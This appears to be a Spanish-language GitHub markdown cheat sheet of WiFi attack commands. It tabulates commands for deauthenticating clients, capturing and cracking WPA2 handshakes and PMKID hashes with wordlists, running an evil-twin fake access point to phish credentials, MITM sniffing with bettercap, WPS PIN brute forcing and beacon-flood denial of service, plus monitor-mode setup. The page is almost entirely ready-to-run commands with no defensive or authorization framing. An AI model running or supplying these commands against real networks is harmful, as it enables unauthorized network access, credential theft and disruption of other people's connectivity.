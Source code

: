 ## 🧨 Tabla de Comandos para Ataques WiFi

| Tipo de Ataque         | Herramienta      | Comando                                                                                  | Objetivo                                      |
|------------------------|------------------|------------------------------------------------------------------------------------------|-----------------------------------------------|
| 🔍 Reconocimiento       | `airodump-ng`     | `sudo airodump-ng wlan0`                                                                 | Escaneo pasivo de redes y clientes            |
|                        |                  | `sudo airodump-ng -c <CANAL> --bssid <BSSID> -w captura wlan0`                          | Captura dirigida a una red específica         |
| 💥 Deautenticación      | `aireplay-ng`     | `sudo aireplay-ng --deauth 10 -a <BSSID> wlan0`                                          | Expulsar a todos los clientes del AP          |
|                        |                  | `sudo aireplay-ng --deauth 10 -a <BSSID> -c <MAC_CLIENTE> wlan0`                         | Expulsar a un cliente específico              |
| 🎣 Captura de Handshake | `airodump-ng`     | *(igual que captura dirigida arriba)*                                                   | Recolectar handshake WPA2-PSK                 |
|                        | `aircrack-ng`     | `aircrack-ng -w rockyou.txt captura.cap`                                                 | Romper WPA2 con diccionario                   |
| 👻 Evil Twin (AP falsa) | `airbase-ng`      | `sudo airbase-ng -e "WiFiGratis" -c 6 wlan0`                                             | Crear punto de acceso falso                   |
|                        | `hostapd + dnsmasq`| *Configuración avanzada para portal cautivo (phishing)*                                  | Capturar credenciales                         |
| 🐍 MITM / Sniffing      | `bettercap`       | `sudo bettercap -iface wlan0mon`<br>`net.probe on`<br>`wifi.recon on`<br>`wifi.assoc <BSSID>` | Interceptar tráfico, escanear y asociarse     |
| 🔓 Ataque WPS          | `reaver`          | `sudo reaver -i wlan0mon -b <BSSID> -vv`                                                 | Fuerza bruta al PIN WPS                       |
| 🔓 Ataque PMKID        | `hcxdumptool`     | `sudo hcxdumptool -i wlan0 --enable_status=15 -o pmkid.pcapng`                           | Captura de hash PMKID WPA2                    |
|                        | `hcxpcapngtool`   | `hcxpcapngtool -o hash.22000 pmkid.pcapng`                                               | Convertir a formato Hashcat                   |
|                        | `hashcat`         | `hashcat -m 22000 hash.22000 rockyou.txt`                                                | Ataque por diccionario con GPU                |
| 💣 Beacon Flood / DoS  | `mdk4`            | `sudo mdk4 wlan0mon b -n "RedFalsa" -f`                                                  | Inundar con falsas redes SSID                 |
| 🪛 Inyección de paquetes| `aireplay-ng`     | `sudo aireplay-ng -9 wlan0mon`                                                           | Verificar si la tarjeta soporta inyección     |

---

## ⚙️ Extras de Configuración

Usa el script section3_activate_wifi.sh o haz los siguientes pasos

| Paso                    | Comando                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| Activar modo monitor    | `sudo ip link set wlan0 down && sudo iw wlan0 set monitor control && sudo ip link set wlan0 up` |
| O usar                  | `sudo airmon-ng start wlan0`                                            |
| Ver interfaces          | `iwconfig`                                                              |
| Desactivar modo monitor | `sudo airmon-ng stop wlan0mon`                                          |
